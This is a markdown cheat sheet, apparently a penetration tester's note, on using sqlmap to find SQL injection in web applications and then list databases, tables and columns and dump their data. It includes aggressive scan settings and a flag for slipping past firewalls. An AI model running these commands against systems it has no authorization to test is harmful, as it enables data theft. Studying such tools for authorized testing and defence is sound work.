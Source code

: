 ```yaml
---
title: Fully Automated Tool (SQLMap)
tags: [security, sqli, web]
---
```


````bash
sqlmap -hh # Extended Help
````

1. <u>Check site for Vulnerability</u>

````bash
sqlmap -u <URL> --level=5 --risk=3
sqlmap -r <request-file> --string="<text-if-query-true>" --level=5 --risk=3
sqlmap -u <URL>?id=5
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

2. <u>Retrieve DB Names</u>

````bash
sqlmap -r <request-file> --dbs
sqlmap -u <URL> --dbs
sqlmap -u <URL> --current-dbs # Return DB that is currently used
````

3. <u>All Tables from DB</u>

````bash
sqlmap -u <URL> -D <db-name> --tables
````

4. <u>Columns from Table</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

5. <u>View Data from Column</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

**<u>Flags</u>**:  
-u URL : Target URL  
--level=5 : Through Scan - Default : 1  
--risk=3 : Risk Level - Default : 1  
-r filename : Provide the request file  
--random-agent : Request blocked by firewall  
--dump : Exploit Vulnerability Save result to file

--string "string" : String present on result page on successful query (Required from Blind Injection)  
--dbms=dbms-name : Pass Database Type (MySQL, PostgreSQL, etc.)

--technique : BEUSTQ  
B: Boolean-based blind  
E: Error-based  
U: Union query-based  
S: Stacked queries  
T: Time-based blind  
Q: Inline queries
